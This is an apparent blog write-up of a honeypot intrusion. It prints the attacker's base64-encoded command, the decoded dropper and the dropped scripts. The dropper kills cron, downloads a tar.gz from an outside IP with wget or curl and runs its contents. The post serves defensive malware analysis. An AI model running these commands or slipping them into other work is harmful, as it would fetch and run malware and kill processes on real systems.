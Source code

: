 ### What the cat brought home

I was looking at my honey pot this morning and I saw a what looked like base64 strings. A lot of time attackers like base64 because it makes it easy for them to bypass detection or even becuase it can ensure that
the string is still the same when ran. The attacker used the login, root/jinsheng to gain access to the honey pot. The Ip address used was: ```54.37.136.183```
In figure 1, we can see the actually command that the attacker used. 
```ruby 
cd /var/tmp; echo \"IyEvYmluL2Jhc2gKY2QgL3RtcApybSAtcmYgLlgxNS11bml4Cm1rZGlyIC5YMTUtdW5peApjZCAuWDE1LXVuaXgKcGtpbGwgLTkgY3JvbiA+IC5vdXQKd2dldCAtcSBodHRwOi8vNTQuMzcuNzAuMjQ5L2RvdGEyLnRhci5neiB8fCBjdXJsIC1PIC1mIGh0dHA6Ly81NC4zNy43MC4yNDkvZG90YTIudGFyLmd6CnNsZWVwIDdzICYmIHRhciB4ZiBkb3RhMi50YXIuZ3oKI3JtIC1yZiBkb3RhMi50YXIuZ3oKY2QgLnJzeW5jCmNobW9kIDc3NyAqCmNkIC90bXAvLlgxNS11bml4Ly5yc3luYy9hICYmIC4vY3JvbiB8fCAuL2FuYWNyb24KZXhpdCAw\">.threatstackcloudsecops; base64 --decode .threatstackcloudsecops | bash
```
Figure 1: the command used to download the malware.
As seen in Figure 1, the attacker first changed the directory to ```/var/tmp````. After changing the directory the base64 encoded string is decoded and than run. In Figure 2, we can see the
decoded base64 string.

```ruby
#!/bin/bash
cd /tmp
rm -rf .X15-unix
mkdir .X15-unix
cd .X15-unix
pkill -9 cron > .out
wget -q http://54.37.70.249/dota2.tar.gz || curl -O -f http://54.37.70.249/dota2.tar.gz
sleep 7s && tar xf dota2.tar.gz
#rm -rf dota2.tar.gz
cd .rsync
chmod 777 *
cd /tmp/.X15-unix/.rsync/a && ./cron || ./anacron
exit 0
```
Figure 2: the decoded base64 string
As seen in figure 2, the base64 removes the directory ```.X15-unix``` and then creates a new directory named the same thing.
After it creates a new directory the script changes to the newly created directory and also kills the cron process.
Next the the attacker downloads a .tar.gz file from ```http://54.37.70.249/dota2.tar.gz```. 
The script will than change directories to the .rsync and give the all the files in the dirctories permissions, after that it will run the
files ```a``` and ```cron```.


### A Look into the files dropped

In Figure 3, we can see that there is a bunch of folders and files inside the .tz. The attackers used
![Octocat](https://i.imgur.com/jmoC3qM.png=100x20)
Figure 3: the untar-ed contents of ```dota2.tar.gz```

In Figure 4,  we take a peak inside the file at ```a/run``` we can see that its a bash script that job is to check what arch the host machine is using and then runs the correct file. 
```ruby
#!/bin/bash
./stop
sleep 10
pwd > dir.dir
dir=$(cat dir.dir)
ARCH=`uname -m`
	if [ "$ARCH" == "i686" ]; then
		nohup ./anacron >>/dev/null & 
	elif [ "$ARCH" == "x86_64" ];   then
		./cron || ./anacron
	fi
echo $! > bash.pid
```
Figure 4: the contents of ```a/run```

In Figure 3, we can see that the ```a/run``` file runs a file called ```./stop```. In Figure 5, we can see that its job is kill any running proccesss called cron. The stop script also removes the file named ```.proc```.

```ruby#!/bin/sh
pkill -9 cron
killall -9 cron
kill -9 `ps x|grep cron|grep -v grep|awk '{print $1}'`>.proc
rm -rf .proc
```
Figure 5: the contents of ```a/stop```.


The ```a/``` is too big to share the source code. But In Figure 7, I posted the a pastebin.com of the source code. It looks like someone compiled a bash script of other miners IOC's and created a single script removing all the other miners. The code removes all the directories and kills all the processes. 
